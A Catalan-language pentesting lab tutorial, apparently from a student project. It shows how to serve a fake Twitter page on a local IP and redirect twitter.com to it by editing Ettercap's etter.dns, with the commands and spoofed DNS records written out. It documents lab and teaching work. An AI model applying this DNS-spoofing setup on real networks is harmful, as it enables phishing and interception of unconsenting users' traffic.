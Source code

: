 ![](https://github.com/KeshiKiD03/asixproject2k22/blob/main/Official%20Documentation/Hacking%20&%20Pentesting/DNS%20Spoofing/Photos/Suplantació.png?raw=true)
> __Img Source__: *@Aaron & @Cristian 's GitHub*
<br>

Com podem observar la pàgina de Twitter està a la nostra IP 10.200.243.137 al port 80.

Ara necessitem que tot el tràfic per a twitter.com sigui redirigit a la meva IP. Utilitzarem DNS Spoof que està disponible a ETTERCAP.

S'ha de canviar el contigut del fitxer etter.dns per a que twitter.com apunto a la nostra IP.

`apt-get install mlocate`

`updatedb`

`locate etter.dns`

```
(root@osboxes)-[/home/anonymous]
# locate etter.dns
/etc/ettercap/etter.dns
/usr/share/ettercap/etter.dns.examples
```

`cp /etc/ettercap/etter.dns /etc/ettercap/etter.dns.original`

`vi /etc/ettercap/etter.dns`

```
*.twitter.com   A       10.200.243.137
www.twitter.com PTR     10.200.243.137

www.alor.org    A       127.0.0.1
www.naga.org    A       127.0.0.1
```

__Obrim Ettercap.__

